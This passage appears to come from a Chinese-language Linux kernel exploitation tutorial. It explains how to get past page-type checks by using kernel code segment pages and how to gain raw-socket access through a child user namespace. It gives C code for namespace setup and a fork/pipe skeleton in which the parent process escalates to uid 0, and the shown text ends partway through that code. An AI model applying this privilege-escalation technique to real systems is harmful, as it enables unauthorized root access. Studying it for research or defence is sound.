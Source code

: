 - 不能为伙伴系统中的页
- 不能为内存交换出去的页
- 不能为用作页表的页
- 不能为用作内存屏障的页

由此，我们传入的页若为内核代码段，以上的检查全部可以绕过。

最后还需要注意一点，即普通用户无法创建原始套接字（`RAW_SOCKET`），因此我们可以创建子命名空间来绕过，并最终在父进程中进行提权。

## 0x02. 实际操作

### 创建子命名空间

上面提到了我们需要在子命名空间才可以进行原始套接字的分配。

使用如下函数即可：

```c
void unshare_setup(void)
{
    char edit[0x100];
    int tmp_fd;

    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}
```

即在子进程中使用：

```c
int main(){
    int pipe_fd[2];

    save_status();
    bind_core(0);
    
    pipe(pipe_fd);
    pid_t pid = fork();
    if(!pid){
        // 子进程
        // .......
        // 完成后通知父进程可以执行，自身阻塞
        write(pipe_fd[1], "A", 1);
        pause();
    }else if(pid < 0){
        err_exit("Failed to create child process.");
    }else{
        // 父进程等待子进程完毕后检查自己的uid
        char buf[1];
        read(pipe_fd[0], buf, 1);
        setresuid(0, 0, 0);

```